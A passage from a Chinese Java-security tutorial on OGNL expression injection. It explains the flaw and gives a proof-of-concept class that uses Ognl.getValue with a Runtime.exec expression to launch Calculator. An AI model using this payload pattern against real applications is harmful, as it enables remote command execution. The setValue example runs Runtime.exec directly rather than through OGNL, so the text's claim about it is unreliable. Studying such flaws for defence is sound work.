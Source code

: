 |ognl.Ognl|parseExpression, getValue, setValue|

调用过程中可能会涉及到的一些类:

|涉及类名|方法名|
|:----:|:----:|
|com.opensymphony.xwork2.ognl.OgnlReflectionProvider|getGetMethod, getSetMethod, getField, setProperties, setProperty, getValue, setValue|
|com.opensymphony.xwork2.util.reflection.ReflectionProvider|getGetMethod, getSetMethod, getField, setProperties, setProperty, getValue, setValue|

# OGNL 表达式注入漏洞
## 漏洞原理
上文中讲到了`OGNL`可以访问静态方法、属性以及对象方法等, 其中包含可以执行恶意操作如命令执行的类`java.lang.Runtime`等, 当`OGNL`表达式外部可控时, 攻击者就可以构造恶意的`OGNL`表达式来让程序执行恶意操作, 这就是`OGNL`表达式注入漏洞.

## POC
可以看到`getValue`和`setValue`都能成功解析恶意的`OGNL`表达式.


```java
package h3rmek1t.javawebsecurity;

import ognl.Ognl;
import ognl.OgnlContext;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/19 1:34 上午
 */
public class ognlExploit {

    public static void main(String[] args) throws Exception {

        // 创建一个 OGNL 上下文对象.
        OgnlContext ognlContext = new OgnlContext();

        // 触发 getValue.
        Ognl.getValue("@java.lang.Runtime@getRuntime().exec('open -a Calculator')", ognlContext, ognlContext.getRoot());

        // 触发 setValue.
        Ognl.setValue(Runtime.getRuntime().exec("open -a Calculator"), ognlContext, ognlContext.getRoot());
    }
}
```
